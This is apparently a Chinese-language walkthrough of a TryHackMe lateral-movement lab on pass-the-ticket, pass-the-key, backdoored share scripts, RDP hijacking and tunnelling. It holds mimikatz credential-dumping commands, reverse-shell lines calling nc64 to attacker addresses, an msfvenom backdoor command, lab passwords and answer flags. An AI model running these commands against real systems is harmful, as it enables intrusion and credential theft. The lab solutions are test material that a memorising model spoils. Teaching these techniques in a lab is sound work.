    作为结果，KDC 将向我们发送一个 TGS 和一个服务会话密钥，我们将需要这个密钥来对我们想要访问的服务进行认证。TGS 是使用服务所有者哈希加密的。服务所有者是运行服务的用户或机器帐户。TGS 包含一个服务会话密钥的副本在其加密内容中，因此服务所有者可以通过解密 TGS 来访问它。

    <div style={{textAlign:'center'}}>

    

    </div>

3. TGS 随后可以发送给所需的服务进行认证和建立连接。服务将使用其配置的帐户密码哈希来解密 TGS 并验证服务会话密钥。

    <div style={{textAlign:'center'}}>

    

    </div>

### 票据传递

有时候可以使用 Mimikatz 从 LSASS 内存中提取 Kerberos 票据和会话密钥。这个过程通常需要我们在受攻击的机器上具有 SYSTEM 权限，并可以按以下步骤进行：

```shell
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

请注意，如果我们只能访问到票据而没有相应的会话密钥，我们将无法使用该票据；因此，两者都是必需的。

虽然 Mimikatz 可以从 LSASS 进程的内存中提取任何可用的 TGT 或 TGS，但大多数时候，我们会对 TGT 感兴趣，因为它们可以用于请求用户被允许访问的任何服务。同时，TGS 只适用于特定的服务。提取 TGT 将需要我们拥有管理员凭据，而提取 TGS 可以使用低特权帐户（仅限于该帐户分配的那些）。

一旦我们提取了所需的票据，我们可以使用以下命令将票据注入到当前会话中：

```shell
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
```

在我们自己的会话中注入票据不需要管理员权限。之后，这些票据将对我们用于横向移动的任何工具都是可用的。要检查票据是否被正确注入，您可以使用 klist 命令：

```shell title="THMJMP2: Powershell"
za\bob.jenkins@THMJMP2 C:\> klist

Current LogonId is 0:0x1e43562

Cached Tickets: (1)

#0>     Client: Administrator @ ZA.TRYHACKME.COM
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 4/12/2022 0:28:35 (local)
        End Time:   4/12/2022 10:28:35 (local)
        Renew Time: 4/23/2022 0:28:35 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: THMDC.za.tryhackme.com
```

### 越过哈希（Overpass-the-Hash）/ 传递密钥（Pass-the-Key）

这种攻击类似于 PtH，但应用于 Kerberos 网络。

当用户请求 TGT 时，他们会发送一个使用从其密码派生的加密密钥加密的时间戳。用于派生此密钥的算法可以是 DES（在当前 Windows 版本中默认禁用），RC4，AES128 或 AES256，具体取决于安装的 Windows 版本和 Kerberos 配置。如果我们拥有其中任何一个密钥，我们可以向 KDC 请求 TGT，而无需实际密码，因此称为传递密钥（PtK）。

我们可以使用 mimikatz 从内存中获取 Kerberos 加密密钥，具体命令如下：

```shell
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

根据可用的密钥，我们可以在 mimikatz 中运行以下命令通过传递密钥获取反向 Shell（nc64 已经在 THMJMP2 中提供，为方便起见）：

#### 如果我们有 RC4 哈希

```shell
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

#### 如果我们有 AES128 哈希

```shell
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

#### 如果我们有 AES256 哈希

```shell
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

:::tip

请注意，当使用 RC4 时，密钥将等于用户的 NTLM 哈希。这意味着如果我们可以提取 NTLM 哈希，只要 RC4 是启用的协议之一，我们就可以使用它来请求 TGT。这种特定变体通常被称为越过哈希（Overpass-the-Hash，OPtH）。

:::

要接收反向 Shell，我们应该在我们的 AttackBox 上运行一个反向监听器：

```shell title="AttackBox"
user@AttackBox$ nc -lvp 5556
```

就像 PtH 一样，从这个 Shell 运行的任何命令都将使用通过 mimikatz 注入的凭据。

### 让我们开始吧

要开始这个练习，您需要使用以下凭据通过 SSH 连接到 THMJMP2：

- User: ZA.TRYHACKME.COM\t2_felicia.dean
- Password: iLov3THM!

```shell
ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com
```

这些凭据将为您授予对 THMJMP2 的管理员访问权限，使您能够使用 mimikatz 来转储执行本任务中所介绍的任何技术所需的身份验证材料。

使用您的 SSH 会话，使用 mimikatz 提取身份验证材料，并对域用户 t1_toby.beck 执行 Pass-the-Hash、Pass-the-Ticket 或 Pass-the-Key 攻击。

一旦您获得使用他的凭据加载的命令提示符，使用 winrs 连接到 THMIIS 上的命令提示符。由于 t1_toby.beck 的凭据已经作为攻击的结果注入到您的会话中，您可以在使用 winrs 时不指定任何凭据，它将使用当前会话中可用的凭据：

```shell
winrs.exe -r:THMIIS.za.tryhackme.com cmd
```

您会在 THMIIS 上 t1_toby.beck 的桌面上找到一个标志。在 THMJMP2 的 C:\tools 路径下有 mimikatz 和 psexec64。

:::info Answer the questions below

在 THMIIS 上的 t1_toby.beck 桌面上执行 “flag.exe” 获得的标志是什么？

<details>

<summary> 具体操作步骤 </summary>

首先，连接到 SSH 之后，运行 mimiaktz

```powershell
PS C:\tools> ./mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

然后进入调试模式

```powershell
mimikatz # privilege::debug
Privilege '20' OK
```

提升权限到 SYSTEM

```powershell
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

512     {0;000003e7} 1 D 16650          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0008febf} 0 D 913793      ZA\t2_felicia.dean      S-1-5-21-3330634377-1326264276-632209373-4605   (12g,24p)Primary
 * Thread Token  : {0;000003e7} 1 D 1262651     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```

然后从 LSASS 内存中提取 NTLM 哈希值

```powershell
mimikatz # sekurlsa::msv
......
Authentication Id : 0 ; 760428 (00000000:000b9a6c)
Session           : RemoteInteractive from 4
User Name         : t1_toby.beck
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 12/11/2023 3:27:05 PM
SID               : S-1-5-21-3330634377-1326264276-632209373-4607
        msv :
         [00000003] Primary
         * Username : t1_toby.beck
         * Domain   : ZA
         * NTLM     : 533f1bd576caa912bdb9da284bbc60fe
         * SHA1     : 8a65216442debb62a3258eea4fbcbadea40ccc38
         * DPAPI    : d9cd92937c7401805389fbb51260c45f
......
```

使用 mimikatz 从内存中获取 Kerberos 加密密钥

```powershell
mimikatz # sekurlsa::ekeys
......
Authentication Id : 0 ; 760428 (00000000:000b9a6c)
Session           : RemoteInteractive from 4
User Name         : t1_toby.beck
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 12/11/2023 3:27:05 PM
SID               : S-1-5-21-3330634377-1326264276-632209373-4607

         * Username : t1_toby.beck
         * Domain   : ZA.TRYHACKME.COM
         * Password : (null)
         * Key List :
           aes256_hmac       6a0d48f79acaec013d928d84a102b72028d574340b6139e876e179db48fbde4e
           rc4_hmac_nt       533f1bd576caa912bdb9da284bbc60fe
           rc4_hmac_old      533f1bd576caa912bdb9da284bbc60fe
           rc4_md4           533f1bd576caa912bdb9da284bbc60fe
           rc4_hmac_nt_exp   533f1bd576caa912bdb9da284bbc60fe
           rc4_hmac_old_exp  533f1bd576caa912bdb9da284bbc60fe

```

然后开始传递密钥攻击

```powershell
mimikatz # sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /aes256:6a0d48f79acaec013d928d84a102b72028d574340b6139e876e179db48fbde4e /run:"c:\tools\nc64.exe -e cmd.exe 10.50.17.216 9999"
```

得到回连的 shell 之后，执行

```shell
winrs.exe -r:THMIIS.za.tryhackme.com cmd
```

切换到 THMIIS，在桌面即可得到 flag

```shell
$nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.50.17.216] from (UNKNOWN) [10.200.19.249] 52783
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>winrs.exe -r:THMIIS.za.tryhackme.com cmd
winrs.exe -r:THMIIS.za.tryhackme.com cmd
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\t1_toby.beck>cd Desktop
cd Desktop

C:\Users\t1_toby.beck\Desktop>FLag.exe
FLag.exe
THM{NO_PASSWORD_NEEDED}
```

</details>

```plaintext
THM{NO_PASSWORD_NEEDED}
```

:::

## Abusing User Behaviour - 滥用用户行为

在某些情况下，攻击者可以利用用户执行的操作来进一步访问网络中的计算机。虽然可以发生许多种情况，但我们将看一些最常见的情况。

### 滥用可写的文件分享

在检查企业环境时，经常会发现合法用户使用的网络共享来执行日常任务。如果由于某种原因这些共享是可写的，攻击者可以植入特定文件，迫使用户执行任意的有效载荷，从而进入其计算机。

一个常见的场景是找到指向存储在网络共享上的脚本或可执行文件的快捷方式。

<div style={{textAlign:'center'}}>



</div>

这种做法的基本原理是管理员可以在网络共享上维护一个可执行文件，并且用户可以执行它，而无需将应用程序复制或安装到每个用户的计算机上。如果作为攻击者，我们对这样的脚本或可执行文件拥有写权限，我们可以在其中植入后门，强制用户执行我们想要的任意有效载荷。

虽然脚本或可执行文件托管在服务器上，但当用户在他的工作站上打开快捷方式时，该可执行文件将从服务器复制到其 `%temp%` 文件夹，并在工作站上执行。因此，任何有效载荷将在最终用户工作站的上下文中运行（和登录的用户帐户）。

### .vbs 脚本后门

例如，如果共享资源是一个 VBS 脚本，我们可以在同一个共享中放置 nc64.exe 的副本，并在共享脚本中注入以下代码：

```vbs
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

这将把 nc64.exe 从共享复制到用户工作站的 `%tmp%` 目录，并在用户打开共享的 VBS 脚本时向攻击者发送一个反向 Shell。

### .exe 程序后门

如果共享文件是一个 Windows 二进制文件，比如 putty.exe，你可以从共享中下载它，并使用 msfvenom 向其中注入后门。该二进制文件仍然会像往常一样工作，但会悄悄执行额外的有效载荷。要创建一个带有后门的 putty.exe，我们可以使用以下命令：

```shell
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

生成的 puttyX.exe 将执行一个 reverse_tcp 的 meterpreter 有效载荷，而用户不会注意到。生成文件后，我们可以替换 Windows 共享上的可执行文件，并使用 Metasploit 中的 exploit/multi/handler 模块等待任何连接。

### RDP 劫持

当管理员使用远程桌面连接到一台机器，并关闭 RDP 客户端而不是注销时，他的会话将在服务器上无限期保持打开状态。如果您在 Windows Server 2016 及更早版本上拥有 SYSTEM 权限，您可以接管任何现有的 RDP 会话，而无需密码。

如果我们拥有管理员级别的访问权限，我们可以通过我们喜欢的任何方法获取 SYSTEM 权限。现在，我们将使用 psexec 来做到这一点。首先，让我们以管理员身份运行一个 cmd.exe：

<div style={{textAlign:'center'}}>



</div>

然后，在其中运行 PsExec64.exe（位于 C:\tools\）：

```shell
PsExec64.exe -s cmd.exe
```

要列出服务器上的现有会话，您可以使用以下命令：

```shell title="Command Prompt"
C:\> query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
 luke                                    3  Disc            .  4/6/2022 6:51 AM\
```

根据上面的命令输出，如果我们当前使用管理员用户通过 RDP 连接，我们的 SESSIONNAME 将是 `rdp-tcp#6` 。我们还可以看到一个名为 luke 的用户保留了一个带有 ID `3` 的会话。任何处于 Disc 状态的会话都是用户保留的，并且目前没有被使用。虽然您也可以接管活动会话，但当您这样做时，合法用户将被迫退出他的会话，这可能会被他们注意到。

要连接到一个会话，我们将使用 tscon.exe 并指定我们将接管的会话 ID，以及我们当前的 SESSIONNAME。按照前面的例子，如果我们以管理员用户的身份连接，要接管 luke 的会话，我们会使用以下命令：

```shell
tscon 3 /dest:rdp-tcp#6
```

简单来说，这个命令表示由 luke 拥有的图形会话 `3` 应该与管理员用户拥有的 RDP 会话 `rdp-tcp#6` 连接。

结果是，我们将恢复 luke 的 RDP 会话，并立即连接到它。

:::tip

Windows Server 2019 不会允许您在不知道其密码的情况下连接到另一个用户的会话。

:::

### 让我们开始吧

为了完成这个练习，您需要使用从 `http://distributor.za.tryhackme.com/creds_t2` 获取的新凭据连接到 THMJMP2（请注意，此链接与其他任务不同）。

```plaintext
Your credentials have been generated: Username: t2_george.kay Password: Jght9206
```

通过 RDP 连接到 THMJMP2，然后尝试劫持会话，遵循指示，在 THMJMP2 上劫持 t1_toby.beck 的 RDP 会话以获取您的 flag 。

执行 `query session` 命令时，您会看到几个名为 t1_toby.beck 后面跟着一个数字的用户。这些只是相同用户的相同副本，您可以劫持其中任何一个（不需要劫持所有）。确保劫持一个标记为已断开连接（Disc.）的会话，以避免干扰其他用户。

:::info Answer the questions below

您从 THMJMP2 上劫持 t1_toby.beck 的会话中获得了什么标志？

<details>

<summary> 具体操作步骤 </summary>

<div style={{textAlign:'center'}}>


</div>

</details>

```plaintext
THM{NICE_WALLPAPER}
```

:::

## Port Forwarding - 端口转发

我们所介绍的大多数横向移动技术需要攻击者可用特定端口。在现实世界的网络中，管理员可能出于安全原因阻止了其中一些端口，或者在网络周围实施了分割，阻止您访问 SMB、RDP、WinRM 或 RPC 端口。

为了绕过这些限制，我们可以使用端口转发技术，这包括使用任何被入侵的主机作为跳板，以访问其他主机。预期某些机器将拥有比其他机器更多的网络权限，因为业务中的每个角色在日常工作中所需的网络服务都不同。

### SSH 隧道

我们将首先看的协议是 SSH，因为它已经内置了通过一个称为 SSH 隧道的功能进行端口转发。虽然 SSH 曾经是与 Linux 系统相关的协议，但现在 Windows 默认提供了 OpenSSH 客户端，所以您可以预期在许多系统中找到它，不受其操作系统的限制。

SSH 隧道可以以不同的方式使用，通过 SSH 连接转发端口，我们将根据情况使用。为了解释每种情况，让我们假设一个场景，我们已经控制了 PC-1 机器（不需要管理员访问权限），并希望将其用作连接到另一台我们无法直接连接到其端口的机器的跳板。我们将从 PC-1 机器（充当 SSH 客户端）开始一个隧道，到攻击者的 PC（充当 SSH 服务器）。这样做的原因是您经常会在 Windows 机器上找到 SSH 客户端，但大多数情况下不会有 SSH 服务器可用。

<div style={{textAlign:'center'}}>



</div>

由于我们将会回连到攻击者的机器，我们希望在其中创建一个没有对隧道访问权限的用户，并设置一个用于创建隧道的密码：

```shell
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

根据您的需求，SSH 隧道可以用于进行本地或远程端口转发。让我们分别看看每种情况。

### SSH 远程端口转发

在我们的示例中，假设防火墙策略阻止攻击者的机器直接访问服务器上的 3389 端口。如果攻击者先前已经入侵了 PC-1，并且 PC-1 可以访问服务器的 3389 端口，那么可以使用 PC-1 进行远程端口转发，从而将端口 3389 进行跳板。远程端口转发允许您从 SSH 客户端（在这种情况下是 PC-1）获取可访问的端口，并将其映射到远程 SSH 服务器（攻击者的机器）。

结果是，在攻击者的机器上将打开一个端口，可以通过 SSH 隧道连接回服务器的 3389 端口。PC-1 将转发连接，以便服务器将所有流量视为来自 PC-1：

<div style={{textAlign:'center'}}>


</div>

到这一步为止，可能会出现一个合理的问题，即为什么我们需要端口转发，如果我们已经入侵了 PC-1 并可以直接从那里运行 RDP 会话。答案很简单：在只能通过控制台访问 PC-1 的情况下，我们无法使用任何 RDP 客户端，因为我们没有图形界面。通过将端口提供给攻击者的机器，您可以使用 Linux RDP 客户端进行连接。类似的情况会出现在您想要针对无法直接访问的端口运行攻击时，因为您的攻击可能需要特定的脚本语言，而这种语言在您沿途妥协的机器上可能并不总是可用。

参考前面的图像，要将服务器上的 3389 端口转发回我们的攻击者机器，我们可以在 PC-1 上使用以下命令：

```shell title="PC1: Command Prompt"
C:\> ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N
```

这将在 PC-1 和 `1.1.1.1`（攻击者 PC）之间建立一个 SSH 会话，使用 `tunneluser` 用户。

由于 `tunneluser` 不被允许在攻击者 PC 上运行 shell，我们需要使用 `-N` 开关运行 `ssh` 命令，以防止客户端请求 shell，否则连接将立即退出。`-R` 开关用于请求远程端口转发，语法要求我们首先指示我们将在 SSH 服务器上打开的端口（3389），然后是一个冒号，接着是我们将要转发的套接字的 IP 和端口（3.3.3.3:3389）。请注意，端口号不需要匹配，尽管在此示例中它们匹配。

命令本身不会输出任何内容，但隧道将依赖于命令的运行。每当需要时，我们可以通过按下 CTRL+C 来关闭隧道，就像关闭任何其他命令一样。

一旦我们的隧道设置并运行，我们可以转到攻击者的机器，并通过转发的端口使用 RDP 来连接服务器：

```shell title="Attacker's Machine"
munra@attacker-pc$ xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword
```

### SSH 本地端口转发

本地端口转发允许我们将 SSH 服务器中的一个端口 “拉取” 到 SSH 客户端。在我们的情景中，这可以用于将攻击者机器上的任何服务通过 PC-1 上的一个端口提供出来。这样，任何无法直接连接到攻击者 PC 但可以连接到 PC-1 的主机现在将能够通过跳板主机访问攻击者的服务。

使用这种类型的端口转发将允许我们从通常无法连接回我们的主机运行反向 Shell，或者简单地使我们想要的任何服务对于无法直接连接到我们的机器的机器可用。

<div style={{textAlign:'center'}}>


</div>

要将攻击者机器上的端口 80 转发到 PC-1 并使其可用，我们可以在 PC-1 上运行以下命令：

```shell title="PC1: Command Prompt"
C:\> ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N
```

该命令结构类似于远程端口转发的命令，但使用了 `-L` 选项进行本地端口转发。该选项要求我们指定 PC-1 用于接收连接的本地套接字（`*:80`）以及从攻击者的 PC 角度连接的远程套接字（`127.0.0.1:80`）。

请注意，在第二个套接字中我们使用了 IP 地址 127.0.0.1，因为从攻击者的 PC 角度来看，这是保存要转发的端口 80 的主机。

由于我们在 PC-1 上打开了一个新端口，我们可能需要添加一个防火墙规则来允许传入的连接（使用 `dir=in`）。这需要管理员权限：

```shell
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```

一旦您设置好隧道，任何将其浏览器指向 PC-1 的用户都可以通过 `http://2.2.2.2:80` 查看攻击者机器发布的网站。

### 使用 socat 进行端口转发

在 SSH 不可用的情况下，socat 可用于执行类似的功能。虽然不如 SSH 灵活，但 socat 可以更简单地进行端口转发。使用 socat 的一个缺点是我们需要将其传输到跳板主机（在我们当前的示例中是 PC-1），这比 SSH 更容易被探测，但在没有其他选择的情况下值得一试。

使用 socat 执行端口转发的基本语法要简单得多。如果我们想在一个主机上打开端口 1234，并将收到的任何连接转发到主机 1.1.1.1 上的端口 4321，您将使用以下命令：

```shell
socat TCP4-LISTEN:1234,fork TCP4:1.1.1.1:4321
```

`fork` 选项允许 socat 为每个接收到的连接 fork 一个新进程，从而可以处理多个连接而不关闭。如果不包括它，当第一个连接完成时，socat 将关闭。

回到我们的示例，如果我们想要使用 PC-1 作为跳板来访问服务器上的端口 3389，就像我们使用 SSH 远程端口转发一样，我们可以使用以下命令：

```shell title="PC-1: Command Prompt"
C:\>socat TCP4-LISTEN:3389,fork TCP4:3.3.3.3:3389
```

:::tip

socat 不能像 SSH 那样直接将连接转发到攻击者的机器，而是会在 PC-1 上打开一个端口，攻击者的机器随后可以连接到该端口：

:::

<div style={{textAlign:'center'}}>



</div>

和往常一样，因为在跳板主机上打开了一个端口，我们可能需要创建一个防火墙规则来允许对该端口的任何连接：

```shell
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
```

另一方面，如果我们想要公开攻击者机器上的端口 80，以便服务器可以访问，我们只需要稍微调整一下命令：

```shell title="PC-1: Command Prompt"
C:\>socat TCP4-LISTEN:80,fork TCP4:1.1.1.1:80
```

结果是，PC-1 将产生端口 80，并监听要转发到攻击者机器上的端口 80 的连接：

<div style={{textAlign:'center'}}>



</div>

### 动态端口转发和 SOCKS

虽然单端口转发非常适用于需要访问特定套接字的任务，但有时我们可能需要针对主机的许多端口运行扫描，甚至是在通过跳板主机的情况下对许多机器的许多端口进行扫描。在这种情况下，动态端口转发允许我们通过一个主机进行跳转，并使用 SOCKS 代理建立到我们想要的任何 IP 地址 / 端口的多个连接。

由于我们不希望依赖于目标网络中的 Windows 机器上存在 SSH 服务器，我们通常会使用 SSH 客户端来建立反向动态端口转发，命令如下：

```shell title="PC1: Command Prompt"
C:\> ssh tunneluser@1.1.1.1 -R 9050 -N
```

在这种情况下，SSH 服务器将在端口 `9050` 上启动一个 SOCKS 代理，并通过 SSH 隧道转发任何连接请求，最终由 SSH 客户端代理。

最有趣的部分是，我们可以轻松地通过 proxychains 使用任何我们的工具通过 SOCKS 代理。为此，我们首先需要确保 proxychains 已正确配置，以指向 SSH 用于 SOCKS 代理服务器的相同端口。proxychains 的配置文件可以在 AttackBox 上的 `/etc/proxychains.conf` 中找到。如果我们滚动到配置文件的末尾，应该会看到一行指示用于 socks 代理的端口：

```plaintext
[ProxyList]
socks4  127.0.0.1 9050
```

默认端口是 9050，但只要它与我们建立 SSH 隧道时使用的端口匹配，任何端口都可以使用。

现在，如果我们想通过代理执行任何命令，我们可以使用 proxychains：

```shell
proxychains curl http://pxeboot.za.tryhackme.com
```

请注意，有些软件，如 nmap，在某些情况下可能无法很好地与 SOCKS 配合使用，并可能显示修改过的结果，因此效果可能会有所不同。

### 让我们开始吧

由于您将在实验网络中，使用 tunneluser 从实验室网络回到攻击者机器进行 SSH 连接，在此任务中，我们强烈建议您使用 Attackbox 或虚拟机，而不是您的实际机器。已经提供了有关创建一个不允许通过 SSH/SCP 运行命令或传输文件的用户的说明，请确保按照提供的说明操作。还建议为 tunneluser 创建一个强密码，并确保它是一个唯一的、可丢弃的密码，而不是您在此平台或任何其他平台上的实际密码。

为完成这个练习，您需要使用从 `http://distributor.za.tryhackme.com/creds` 中为您分配的凭据连接到 THMJMP2。

```plaintext
Your credentials have been generated: Username: allan.wilkinson Password: Xhlb3351
```

一旦您获得了您的凭据，就可以通过 SSH 连接到 THMJMP2：

```shell
ssh za\\allan.wilkinson@thmjmp2.za.tryhackme.com
```

我们的第一个目标是通过 RDP 连接到 THMIIS。如果我们尝试直接从攻击者的机器连接，我们会发现端口 3389 已经通过防火墙被过滤，因此无法直接访问。然而，该端口正在运行，但只能从 THMJMP2 访问。通过使用 THMJMP2 上的 C:\tools\socat \ 中提供的 socat，我们将转发 RDP 端口，使其在 THMJMP2 上可用，以便从我们的攻击者机器连接。

为此，我们将使用以下参数运行 socat：

```shell title="THMJMP2: Command Prompt"
C:\tools\socat\>socat TCP4-LISTEN:13389,fork TCP4:THMIIS.za.tryhackme.com:3389
```

:::tip

我们不能使用端口 3389 作为我们的监听器，因为它已经在 THMJMP2 上用于其自己的 RDP 服务。请随意更改监听端口（13389）为其他数字，以避免与其他学生产生冲突。在典型的设置中，您需要添加防火墙规则来允许监听端口的流量通过，但为了您的方便，THMJMP2 的防火墙已经禁用了。

:::

设置监听器后，您应该能够通过在 THMJMP2 上的 socat 监听器进行枢纽操作，从攻击者机器连接到 THMIIS 上的 RDP：

```shell title="AttackBox"
user@AttackBox$ xfreerdp /v:THMJMP2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020
```

连接后，您应该可以从 THMIIS 上 t1_thomas.moore 的桌面获取一个 flag 。

### 基于隧道的复杂漏洞利用

THMDC 服务器正在运行一个存在漏洞的 Rejetto HFS 版本。我们面临的问题是防火墙规则限制对该漏洞端口的访问，只能从 THMJMP2 进行查看。此外，从 THMDC 出站连接仅允许连接到其本地网络中的机器，这使得无法直接将反向 Shell 发送到我们攻击者的机器。更糟糕的是，Rejetto HFS 漏洞需要攻击者托管一个 HTTP 服务器来触发最终的有效载荷，但由于不允许向攻击者的机器进行出站连接，我们需要找到一种方法在同一网络中的其他机器上托管 Web 服务器，这并不方便。我们可以使用端口转发来解决所有这些问题。

首先，让我们看一下漏洞是如何工作的。首先，它将连接到 HFS 端口（在 Metasploit 中的 `RPORT`）以触发第二个连接。这第二个连接将针对攻击者机器上的 `SRVPORT` 进行，其中一个 Web 服务器将传递最终的有效载荷。最后，攻击者的有效载荷将执行并发送反向 Shell 到攻击者的 `LPORT`：

<div style={{textAlign:'center'}}>



</div>

考虑到这一点，我们可以使用 SSH 将攻击者的机器上的一些端口转发到 THMJMP2（用于 Web 服务器的 SRVPORT 和用于接收反向 Shell 的 LPORT），并通过 THMJMP2 进行跳板访问，以达到连接到 THMDC 上的 RPORT。我们需要在两个方向上进行三次端口转发，这样所有漏洞的交互都可以通过 THMJMP2 进行代理：

<div style={{textAlign:'center'}}>



</div>

Rejetto HFS 将在 THMDC 上的端口 80 上监听，因此我们需要通过 THMJMP2 使用远程端口转发将该端口隧道传回攻击者的机器。由于攻击盒（attackbox）的端口 80 已被另一个服务占用，我们需要将 THMDC 上的端口 80 链接到攻击盒当前未使用的某个端口上。我们可以使用端口 8888。在 THMJMP2 上运行 SSH 进行端口转发时，我们需要在命令中添加 `-R 8888:thmdc.za.tryhackme.com:80`。

